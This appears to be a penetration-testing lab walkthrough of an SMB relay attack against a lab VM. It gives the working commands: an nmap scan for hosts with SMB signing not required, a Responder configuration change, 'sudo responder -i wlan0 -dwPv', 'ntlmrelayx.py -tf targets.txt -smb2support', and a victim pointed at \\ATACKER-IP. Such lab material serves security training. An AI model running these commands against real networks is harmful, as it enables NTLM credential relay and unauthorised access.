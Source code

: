 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

